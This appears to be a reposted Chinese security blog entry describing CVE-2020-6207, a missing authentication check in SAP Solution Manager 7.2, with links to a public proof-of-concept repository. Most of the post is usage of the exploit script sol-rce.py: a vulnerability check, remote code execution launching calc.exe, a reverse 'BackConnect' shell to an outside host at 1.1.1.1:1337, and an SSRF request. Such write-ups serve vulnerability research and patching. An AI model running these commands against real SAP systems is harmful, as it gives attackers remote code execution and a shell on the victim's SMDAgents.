 #  SAP_EEM_CVE-2020-6207-PoC   
骇客安全  骇客安全   2025-03-28 21:56  
  
# SAP_EEM_CVE-2020-6207 PoC  
  
SAP Solution Manager是德国思爱普（SAP）公司的一套集系统监控、SAP支持桌面、自助服务、ASAP实施等多个功能为一体的系统管理平台。该平台可以帮助客户建立SAP解决方案的生命周期管理，并提供系统监控、远程支持服务和SAP产品组件升级等功能。 SAP Solution Manager (User Experience Monitoring) 7.2版本中存在安全漏洞，该漏洞源于程序没有对服务进行任意的身份验证。攻击者可利用该漏洞入侵所有连接Solution Manager的SMDAgents。  
  
  
漏洞细节：  
https://github.com/chipik/SAP_EEM_CVE-2020-6207/blob/main/Process.md  
  
  
PoC for CVE-2020-6207 (Missing Authentication Check in SAP Solution Manager)：  
https://github.com/chipik/SAP_EEM_CVE-2020-6207  
  
  
**Check**  
  
```
➜ python sol-rce.py -H 172.16.30.43 -P 50000 -c
Vulnerable! [CVE-2020-6207] - http://172.16.30.43:50000
```  
  
  
**Trigger RCE**  
  
```
python sol-rce.py -H 172.16.30.43 -P 50000 --rce calc.exe
```  
  
  
**Get BackConnect**  
  
```
➜ python sol-rce.py -H 172.16.30.43 -P 50000 --back 1.1.1.1:1337
```  
  
  
**SSRF**  
  
```
➜ python sol-rce.py -H 172.16.30.43 -P 50000 --ssrf http://1.1.1.1/chpk
```  
  
  
**sol-rce.py**  
  
  
https://github.com/chipik/SAP_EEM_CVE-2020-6207/blob/main/sol-rce.py  
  
  
